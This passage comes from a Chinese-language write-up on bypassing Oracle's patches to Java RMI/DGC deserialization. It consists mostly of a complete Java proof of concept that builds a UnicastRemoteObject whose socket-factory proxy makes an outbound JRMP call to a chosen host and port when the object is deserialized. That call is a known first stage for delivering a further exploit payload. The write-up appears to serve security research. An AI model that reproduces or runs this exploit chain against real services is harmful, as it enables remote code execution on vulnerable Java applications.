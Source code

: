 为了bypass上面这个过程，上面这个是在已经开始DGC请求的时候触发的，在高版本中orace也对这个进行了修复，所以要利用也就变得难上加难。但是为什么我们在第一次`readobject`的时候就进行呢？所以有了下面这个触发点

```java
package com.dem0.vuln;

import com.dem0.internal.ReflectUtils;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.reflect.Constructor;
import java.lang.reflect.Proxy;
import java.rmi.server.ObjID;
import java.rmi.server.RMIServerSocketFactory;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.rmi.server.UnicastRemoteObject;
import java.util.Random;

import static com.dem0.utils.Reflections.setFieldValue;

public class TriggerJRMPCallByDeserialize {
    public static void main(String[] args) throws Exception{
        String registryHost = "192.168.59.1";
        int registryPort = 1099;
        String JRMPHost = "192.168.59.1";
        int JRMPPort = 2499;

        TCPEndpoint te = new TCPEndpoint(JRMPHost, JRMPPort);
        ObjID id = new ObjID(new Random().nextInt());
        UnicastRef refObject = new UnicastRef(new LiveRef(id, te, false));

        //触发关键在于RemoteObjectInvocationHandler的invoke方法
        RemoteObjectInvocationHandler myInvocationHandler = new RemoteObjectInvocationHandler(refObject);
        RMIServerSocketFactory handcraftedSSF = (RMIServerSocketFactory) Proxy.newProxyInstance(
                RMIServerSocketFactory.class.getClassLoader(),
                new Class[] { RMIServerSocketFactory.class, java.rmi.Remote.class },
                myInvocationHandler);


        Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null);
        constructor.setAccessible(true);
        UnicastRemoteObject remoteObject = (UnicastRemoteObject) constructor.newInstance(null);

        setFieldValue(remoteObject, "ssf", handcraftedSSF);

        byte[] serializeData =  ReflectUtils.WriteObjectToBytes(remoteObject);

        ReflectUtils.readObjectFromBytes(serializeData);

    }
}

```
